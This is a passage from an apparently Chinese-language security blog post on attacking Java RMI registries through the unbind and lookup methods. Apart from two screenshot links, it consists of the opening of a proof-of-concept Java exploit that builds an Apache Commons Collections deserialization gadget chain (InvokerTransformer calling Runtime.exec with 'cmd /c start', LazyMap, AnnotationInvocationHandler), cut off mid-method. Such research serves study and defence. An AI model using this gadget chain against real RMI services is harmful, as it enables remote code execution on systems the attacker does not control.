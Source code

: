 
### POC2 \- 基于unbind/looup


**case2 \- lookup**


![image-20241125190051870](https://images.cnblogs.com/cnblogs_com/erosion2020/2432063/o_241125134805_rmi10.png)


**case4 \- unbind**


![image-20241125191936607](https://images.cnblogs.com/cnblogs_com/erosion2020/2432063/o_241125134824_rmi11.png)



```
package rmi_injection_labs1.server;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import sun.rmi.server.UnicastRef;

import java.io.ObjectOutput;
import java.lang.annotation.Documented;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.rmi.Remote;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.rmi.server.Operation;
import java.rmi.server.RemoteCall;
import java.rmi.server.RemoteObject;
import java.util.HashMap;
import java.util.Map;

public class ServerAttackRegistryUnBuild {
    public static void main(String[] args) throws Exception {
        // ======================这一段就是POC1中的bind/rebuild攻击链代码======================
        String execArgs = "cmd /c start";
        final Transformer transformerChain = new ChainedTransformer(
                new Transformer[]{ new ConstantTransformer(1) });
        final Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class }, new Object[] {
                        "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class }, new Object[] {
                        null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String.class }, new Object[]{execArgs}),
                new ConstantTransformer(1) };
        Class transformer = Class.forName(ChainedTransformer.class.getName());
        Field iTransformers = transformer.getDeclaredField("iTransformers");
        iTransformers.setAccessible(true);
        iTransformers.set(transformerChain, transformers);
        final Map lazyMap = LazyMap.decorate(new HashMap(), transformerChain);
        final Constructor ctor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructors()[0];
        ctor.setAccessible(true);
```
